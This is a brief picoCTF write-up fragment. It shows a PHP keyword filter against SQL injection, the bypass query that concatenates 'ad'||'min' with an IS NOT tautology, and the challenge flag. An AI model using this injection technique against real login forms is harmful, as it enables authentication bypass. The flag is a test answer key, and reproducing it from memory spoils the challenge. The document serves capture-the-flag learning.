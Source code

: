 ```
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_2a78ea34c84da0bf585ada4cb9a6f8fb}
?>
```


SELECT username, password FROM users WHERE username='adm' AND password='adm' 


SELECT username, password FROM users WHERE username='ad'||'min' AND password='a' IS NOT 'b'
Congrats! You won! Check out filter.php

picoCTF{k3ep_1t_sh0rt_2a78ea34c84da0bf585ada4cb9a6f8fb}
